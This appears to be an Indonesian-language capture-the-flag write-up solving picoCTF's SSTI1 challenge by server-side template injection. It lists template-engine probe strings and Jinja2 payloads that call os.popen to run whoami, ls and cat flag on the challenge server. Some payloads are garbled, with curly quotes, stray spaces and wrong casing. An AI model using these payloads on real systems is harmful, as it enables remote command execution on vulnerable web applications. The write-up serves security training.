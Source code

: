 # SSTI1

saya akan memberikan solusi terperinci untuk tantangan SSTI1 dari kategori eksploitasi web PICOCTF, yang dikategorikan sebagai tantangan level yang mudah.

Nama tantangan-SSTI, adalah kependekan dari injeksi template sisi server. SSTI terjadi ketika aplikasi web memungkinkan pengguna untuk mengirimkan data yang diproses oleh mesin templat di server tanpa validasi yang tepat. Mesin template digunakan untuk menghasilkan konten dinamis, namun jika input yang diberikan pengguna tidak disanitasi, penyerang dapat menyuntikkan kode berbahaya yang dijalankan server.

Dalam hal ini, untuk mengidentifikasi mesin templat mana yang digunakan oleh aplikasi, kami dapat menyuntikkan muatan tertentu dan mengamati responsnya. Di bawah ini adalah beberapa mesin templat umum dan muatan uji yang sesuai:

```bash
Jinja2 (Python Flask/Django): {{ 7*7 }}
Freemarker (Java): ${7*7}
Velocity (Java): #set($a = 7*7)${a}
Thymeleaf (Java): ${7*7}
Twig (PHP Symfony): {{ 7*7 }}
Smarty (PHP): {$7*7}
Mako (Python): <% print 7*7 %>
```

## Documentation

[Documentation](/images/1.png)

[Documentation](/images/2.png)

Sekarang untuk menyelesaikan tantangan, kita perlu menemukan nilai bendera yang bisa kita dapatkan dengan melakukan injeksi perintah atau serangan eksekusi kode jarak jauh. Kami dapat mencari muatan yang tersedia sehubungan dengan Jinja2 untuk menjalankan injeksi perintah.

Mari kita berikan input seperti di bawah ini :

```bash
  {{self._templateReference__context.cycler .__ init __.__ global __. os.popen (‘whoami’) .read ()}}
```

![App Screenshot](/images/3.png)

Telah dikonfirmasi bahwa aplikasi rentan terhadap serangan injeksi perintah dan sekarang kita dapat mencari file flag menggunakan perintah ‘LS’ untuk mendaftar file yang tersedia di direktori Currect dengan memberikan input seperti di bawah ini -

```bash
  {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(‘ls’).read() }}
```

![App Screenshot](/images/4.png)

Untungnya, kami memiliki file flag di folder yang sama sehingga kami tidak perlu mencarinya lebih lanjut dan kami dapat langsung membaca konten file flag menggunakan perintah CAT seperti yang ditunjukkan di bawah ini -

```bash
  {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(‘cat flag’).read() }}
```
